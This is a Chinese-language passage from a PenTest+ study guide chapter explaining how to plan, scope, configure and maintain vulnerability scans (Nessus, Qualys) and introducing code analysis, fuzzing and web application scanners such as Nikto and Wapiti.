

图 4.3 配置 Nessus 扫描

管理员应配置这些扫描，以便在检测到新漏洞时提供自动警报。许多安全团队将其扫描配置为生成扫描结果的自动电子邮件报告，例如 图 4.4 中显示的报告。渗透测试人员通常需要交互式访问扫描控制台，以便在注意力转移时可以检索以前对不同系统执行的扫描的报告。这种访问还允许渗透测试人员在渗透测试的重点演变为包括以前扫描可能未覆盖的系统、服务和漏洞时，形成临时扫描。



图 4.4 Nessus 扫描报告示例

许多因素会影响组织决定对其系统进行漏洞扫描的频率：

*   组织的 `风险偏好` 是其在环境中容忍风险的意愿。如果组织极其规避风险，它可能会选择更频繁地进行扫描，以最大限度地减少漏洞出现与被扫描检测到之间的时间。

*   法规要求，例如 PCI DSS 或 FISMA，可能规定漏洞扫描的最低频率。这些要求也可能来自企业政策。

*   技术约束可能会限制扫描频率。例如，扫描系统可能只能每天执行一定数量的扫描，组织可能需要调整扫描频率以确保所有扫描都成功完成。

*   业务约束可能会阻止组织在高业务活动期间进行资源密集型漏洞扫描，以避免干扰关键流程。

*   许可限制可能会限制扫描器消耗的带宽或可以同时进行的扫描数量。

*   运营约束可能会限制网络安全团队监控和及时响应扫描结果的能力。

网络安全专业人员在规划漏洞扫描计划时必须权衡所有这些考虑因素。通常明智的做法是从小规模开始，并随着时间的推移慢慢扩大漏洞扫描的范围和频率，以避免使扫描基础设施或企业系统不堪重负。

渗透测试人员必须了解组织在设计其现有漏洞管理计划时所做的权衡决策。这些限制可能会指向渗透测试人员应使用专门为渗透测试目的设计的定制扫描来补充组织现有扫描的领域。

## 主动扫描与被动扫描

大多数漏洞扫描工具执行 `主动漏洞扫描`，这意味着该工具实际上会与被扫描主机交互，以识别开放服务并检查可能的漏洞。主动扫描确实能提供高质量的结果，但这些结果也伴随着一些缺点：

*   主动扫描很吵闹，很可能会被被扫描系统的管理员检测到。在管理员知道扫描的环境中，这可能不是问题，但如果扫描旨在隐蔽进行，主动扫描就会存在问题。

*   主动扫描还可能意外利用漏洞并干扰生产系统的运行。虽然主动扫描器通常具有可以用来最大限度地降低此风险的设置，但现实是主动扫描可能会导致生产问题。

*   如果主动扫描被防火墙、入侵防御系统、网络分段或其他安全控制阻止，也可能完全遗漏某些系统。


被动漏洞扫描采用了一种不同的方法，用于补充主动扫描。被动扫描器不是探测系统中的漏洞，而是监控网络，类似于入侵检测系统使用的技术。但与监控入侵尝试不同，它们会查找过时系统和应用程序的特征签名，并将结果报告给管理员。

被动扫描具有非常吸引人的优点，但它们只能检测在网络流量中反映的漏洞。它们不能替代主动扫描，但它们是定期主动漏洞扫描的非常有力的补充。

## 配置和执行漏洞扫描

无论扫描是由专注于构建持久漏洞管理计划的网络安全分析师执行，还是由渗透测试人员作为测试的一部分进行一次性扫描，管理员都必须配置漏洞管理工具，以根据基于要求的扫描规范执行扫描。这些任务包括确定每个扫描的适当范围，配置扫描以满足组织的要求，并保持漏洞扫描工具的时效性。

### 漏洞扫描范围

漏洞扫描的 `scope` 描述了扫描的范围，包括对以下问题的回答：

*   哪些系统、网络、服务、应用程序和协议将包含在漏洞扫描中？

*   将使用哪些技术措施来测试系统是否存在于网络上？

*   将对漏洞扫描发现的系统执行哪些测试？

在将漏洞扫描作为持续计划的一部分进行设计时，管理员应首先从一般意义上回答这些问题，并确保技术人员和管理层达成共识，认为扫描是适当的，并且不太可能对业务造成干扰。一旦确定扫描设计良好且不太可能造成严重问题，他们就可以继续在漏洞管理工具中配置扫描。

当扫描作为渗透测试的一部分进行时，渗透测试人员仍应尽可能避免业务中断。但是，测试的侵入性程度以及与管理层的协调程度应由渗透测试的商定工作说明书（`SOW`）指导。如果渗透测试人员拥有全权使用任何可用技术而无需事先协调，则无需咨询管理层。但是，测试人员必须始终遵守其 `SOW` 的商定范围。

### 配置漏洞扫描

漏洞管理解决方案提供了配置与扫描相关的许多不同参数的功能。除了安排自动扫描和生成报告外，管理员还可以自定义扫描器执行的检查类型，提供访问目标服务器的凭据，在目标服务器上安装扫描代理，并从各种网络视角进行扫描。

#### 扫描敏感度级别

配置漏洞扫描的网络安全专业人员应仔细关注与扫描敏感度级别相关的配置设置。虽然在某些情况下使用所有可用漏洞测试进行全扫描可能是合适的，但通常将扫描设置调整为正在进行的评估或渗透测试的特定需求更为高效。

扫描敏感度设置决定扫描器将执行的检查类型，并应进行自定义，以确保扫描实现其目标，同时尽量减少干扰目标环境的可能性。

通常，管理员通过从模板开始来创建新扫描。这可能是漏洞管理供应商提供并内置于产品中的模板，例如 Figure 4.5 中显示的 Nessus 模板，也可能是为组织内使用而专门开发的自定义模板。当管理员创建自己的扫描配置时，应考虑将常见的配置设置保存在模板中，以便高效地重复使用他们的工作，在配置未来扫描时节省时间并减少错误。



FIGURE 4.5 Nessus scan templates

管理员还可以通过配置每次扫描期间将运行的特定插件来提高扫描效率。每个插件执行针对特定漏洞的检查，这些插件通常根据其涉及的操作系统、应用程序或设备分组为系列。禁用不必要的插件可以通过跳过不必要的检查来提高扫描速度，还可以减少扫描器检测到的误报数量。

例如，一个不使用 Amazon Linux 操作系统的组织可能会选择在其扫描模板中禁用所有与 Amazon Linux 相关的检查。Figure 4.6 显示了在 Nessus 中禁用这些插件的示例。同样，一个在网络防火墙上阻止使用某些协议的组织可能不希望使用这些协议进行外部扫描而浪费时间。



FIGURE 4.6 Disabling unused plug‐ins

在渗透测试期间，测试人员可能希望将扫描配置为隐蔽扫描，这种扫描会竭力避免使用可能引起注意的测试。大多数扫描器的默认操作模式是使用传输控制协议（`TCP`）连接扫描，它只是向目标系统发起 `TCP` 连接并探测其漏洞。这非常吵闹，肯定会引起细心管理员的注意。虽然这可能适用于宣传的扫描，但对于渗透测试来说通常效果不佳。

如果组织的网络安全团队不知道正在进行渗透测试，那么使用隐蔽扫描尤其重要。扫描引起的服务中断、错误消息和日志条目可能会引起网络安全团队的注意，导致他们调整防御，从而阻碍渗透测试。使用隐蔽扫描更能模拟熟练攻击者的活动，从而产生更真实的渗透测试。

#### 补充网络扫描

基本漏洞扫描通过网络运行，从远处探测系统。这通过模拟攻击者可能从另一个网络视角看到的内容，提供了系统安全性的真实视图。但是，扫描器和目标服务器路径上存在的防火墙、入侵防御系统和其他安全控制可能会影响扫描结果，提供不受这些控制影响的服务器安全性的不准确视图。

此外，许多安全漏洞仅使用远程扫描很难确认。通过网络运行的漏洞扫描可能会检测到漏洞的可能性，但无法有把握地确认它，从而导致需要耗时管理员调查的误报结果。


# 现代漏洞管理解决方案

现代漏洞管理解决方案可以通过关于服务器配置的可信信息来补充这些远程扫描。这些信息可以通过两种方式收集。首先，管理员可以向扫描程序提供凭据，使扫描程序能够连接到目标服务器并检索配置信息。然后可以使用这些信息来确定是否存在漏洞，从而提高扫描相对于非凭据扫描的准确性。例如，如果漏洞扫描检测到可以通过操作系统更新来纠正的潜在问题，凭据扫描可以在报告漏洞之前检查系统上是否已安装该更新。

凭据扫描在企业漏洞管理计划中被广泛使用，在渗透测试中使用它们也可能是合理的。然而，这取决于渗透测试的参数以及测试团队在进行工作时是否应该对内部信息拥有“白盒”访问权限。如果渗透测试旨在作为“黑盒”练习，那么向团队提供凭据漏洞扫描的结果通常会超出测试的范围。与往常一样，如果对渗透测试期间什么是适当的或不适当的存在疑问，请咨询商定的 SOW。

图 4.7 显示了 Qualys 中可用的凭据扫描选项示例。凭据扫描可以访问操作系统、数据库和应用程序等来源。



FIGURE 4.7 Configuring authenticated scanning

除了凭据扫描之外，一些扫描程序还将传统的基于服务器的漏洞扫描方法与互补的基于代理的方法相结合。在这种方法中，管理员在每个目标服务器上安装小型软件代理。这些代理对服务器配置进行扫描，提供“内部到外部”的漏洞扫描，然后将信息报告回漏洞管理平台以进行分析和报告。

## 扫描视角

全面的漏洞管理计划提供从各种 `scan perspectives` 进行扫描的功能。每个扫描视角从网络上的不同位置进行扫描，提供对漏洞的不同视图。渗透测试人员必须敏锐地了解正在测试的环境的网络拓扑，以及其工具在网络上的位置可能如何影响扫描结果。

例如，外部扫描是从互联网运行的，让管理员了解组织外部的攻击者会将哪些内容视为潜在漏洞。内部扫描可能从一般企业网络上的扫描程序运行，提供恶意内部人员可能遇到的视图。最后，位于数据中心内部的扫描程序和位于服务器上的代理提供了服务器实际状态的最准确视图，因为它们显示了可能被网络上的其他安全控制阻止的漏洞。

漏洞管理平台能够管理不同的扫描程序并提供扫描结果的汇总视图，汇编来自不同来源的数据。图 4.8 显示了管理员如何使用 Qualys 为新配置的扫描选择扫描程序的示例。



FIGURE 4.8 Choosing a scan appliance

与决定是否使用凭据扫描结果时一样，渗透测试人员在确定测试期间使用的适当扫描视角时应谨慎行事并咨询工作说明书。如果渗透测试人员正在进行黑盒渗透测试，则不应有权访问使用内部视角运行的扫描。

## 扫描程序维护

与任何技术产品一样，漏洞管理解决方案需要维护和保养。管理员应对其漏洞扫描程序进行定期维护，以确保扫描软件和漏洞数据源保持最新。

### 扫描程序软件

扫描系统本身也并非不受漏洞影响。如 图 4.9 所示，即使是漏洞扫描程序也可能存在安全问题！定期修补扫描程序软件可以保护组织免受扫描程序特定漏洞的影响，还能提供重要的错误修复和功能增强，以提高扫描质量。



FIGURE 4.9 National Cyber Awareness System Vulnerability Summary ¶ Source: NIST

### 漏洞插件数据源

安全研究人员每周都会发现新漏洞，漏洞扫描程序只有在频繁更新其插件的情况下才能对这些漏洞有效。管理员应将扫描程序配置为定期检索新插件，最好是每天一次。幸运的是，如 图 4.10 所示，此过程可以轻松自动化。



FIGURE 4.10 Setting automatic updates in Nessus

# 软件安全测试

无论应用程序开发团队多么熟练，其代码中都会存在一些缺陷，渗透测试人员应将测试软件安全性的工具纳入其工具包中。

Veracode 2020 年基于其测试的应用程序指标显示，他们扫描的超过 130,000 个应用程序中有 66% 未能通过其 OWASP（开放 Web 应用程序安全项目）Top 10 安全问题测试流程。这一数字表明，将软件安全测试更好地集成到软件开发生命周期中存在巨大需求。

各种手动和自动测试工具和方法可供渗透测试人员和开发人员使用。幸运的是，自动化工具不断改进，为测试代码安全性提供了一种比执行繁琐手动测试更简单的方法。在接下来的几页中，我们将回顾当今可用的一些关键软件安全测试方法和工具。

## 分析和测试代码

作为每个应用程序和程序基础的源代码可能包含各种错误和缺陷，从编程和语法错误到业务逻辑、错误处理以及与其他服务和系统集成方面的问题。能够分析代码以了解代码的功能、其执行任务的方式以及程序本身可能存在缺陷的位置非常重要。这些信息可能指向在渗透测试期间可能被利用的关键未发现漏洞。

代码测试通常通过静态或动态代码分析以及模糊测试和故障注入等测试方法进行。一旦对代码进行更改并部署，就必须进行回归测试，以确保已实施的修复没有创建新的安全问题。

### 静态代码分析

`Static code analysis`（有时称为源代码分析）是通过审查应用程序的代码来进行的。由于静态分析使用应用程序的源代码，它可以被视为一种白盒测试，测试人员可以完全看到代码。这可以让测试人员发现其他测试可能遗漏的问题，要么是因为逻辑未暴露给其他测试方法，要么是因为内部业务逻辑问题。


与许多其他方法不同，静态分析不运行正在分析的程序；相反，它专注于理解程序的编写方式以及代码旨在做什么。静态代码分析可以使用自动化工具进行，也可以通过手动审查代码来进行——这一过程有时被称为“代码理解”。自动化静态代码分析在查找已知问题方面非常有效，而手动静态代码分析有助于识别程序员导致的错误。

# 动态代码分析

`Dynamic code analysis`依赖于在提供输入以测试软件的同时执行代码。与静态代码分析类似，动态代码分析可以通过自动化工具或手动进行，但由于大多数动态代码测试过程需要进行大量测试，因此强烈偏好自动化测试。

渗透测试人员更有可能发现自己能够对代码进行动态分析，而不是静态分析，因为渗透测试工作说明书（SOW）的条款通常限制对源代码的访问。

#### 模糊测试

`Fuzz testing`，或`fuzzing`，涉及向应用程序发送无效或随机数据，以测试其处理意外数据的能力。应用程序受到监控，以确定它是否崩溃、失败或以不正确的方式响应。模糊测试通常是自动化的，因为模糊测试涉及大量数据，并且对于检测输入验证和逻辑问题以及内存泄漏和错误处理特别有用。

模糊测试通常可以在外部执行，无需对系统进行任何特权访问，因此在渗透测试人员中很受欢迎。但是，模糊测试也是一种嘈杂的测试方法，可能会引起网络安全团队的过度关注。

## Web 应用程序漏洞扫描

我们组织今天使用的许多应用程序都是基于 Web 的，并且由于基于 HTML 的 Web 界面相对标准化，它们为测试提供了独特的机会。在本章前面，我们研究了 Nessus 和 Qualys 等漏洞扫描工具，它们扫描系统、服务以及在有限范围内扫描 Web 应用程序中的已知漏洞。专用 Web 应用程序漏洞扫描器提供了更广泛的工具集，专门设计用于识别应用程序及其底层 Web 服务器、数据库和基础设施中的问题。

Web 应用程序扫描器可以直接针对应用程序运行，但也可以通过应用程序进行引导，以确保它们找到您想要测试的所有组件。与传统漏洞扫描器类似，Web 应用程序扫描工具在完成后会提供它们发现的问题报告，如 Figure 4.11 所示。通过钻取报告项目，通常还可以获得其他详细信息，包括问题的位置以及任何修复指导。



FIGURE 4.11 Acunetix web application scan vulnerability report

`Nikto` 是一个开源 Web 应用程序扫描工具，任何人都可以免费使用。如 Figure 4.12 所示，它使用命令行界面并以文本形式显示结果。参加考试时，您应该熟悉解读 Nikto 扫描结果。



FIGURE 4.12 Nikto web application scan results

在准备 PenTest+ 考试时，您还应该熟悉 `Wapiti` 开源 Web 应用程序漏洞扫描器。虽然 Wapiti 不如 Nikto 流行，但它包含在考试目标中。它使用类似的基于文本的界面，如 Figure 4.13 所示。

